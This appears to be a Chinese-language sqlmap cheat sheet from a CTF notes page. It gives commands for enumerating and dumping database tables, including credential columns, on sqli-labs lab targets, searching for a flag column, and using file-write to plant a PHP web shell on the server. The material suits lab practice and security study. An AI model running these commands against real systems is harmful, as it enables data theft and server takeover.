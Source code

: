 # 基本语法：

```javascript
--dbs      #数据库
--tables -D"tets"  #显示test数据库中的表
--column -T"table_name" -D"database_name" #显示表结构
--dump -C"column_name" -T"table_name" -D"database_naem" #显示指定字段里的内容
--dump -T"table_name" -D"database_name" #显示表的所有内容
```



列如：

```javascript
sqlmap -u"http://192.168.100.176/vuln/sqli-labs/Less-1/?id=1"
 --dump -C"password,username" -T"users" -D"security"
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/神器使用/sqlmap/images/4BFF136AB7DB496981B0425376F03845clipboard.png)



# 从数据库搜索指定字段

--search:搜索指定字段（在ctf中很有用，直接搜索flag)

```javascript
sqlmap -u"http://127.0.0.1?id=1" -D"securty" --search -C"flag""
```



# 文件读写：

--file-read=RFILE  从后端的数据库管理系统文件系统读取文件（物理路径）

--file-write=WFILE 编辑后端的数据库管理系统上的本地文件

--file-dest=DFILE  后端的数据库管理系统写入文件的绝对路径



示例：

```javascript
sqlmap -r"bp.txt" -p"uname" --file-write='/root/桌面/CTF/1.php' 
--file-dest="H:\WWW\vuln\sqli-labs\Less-11\shell.php"
```

将本地的1.php文件写入到服务器的shell.php文件内。
































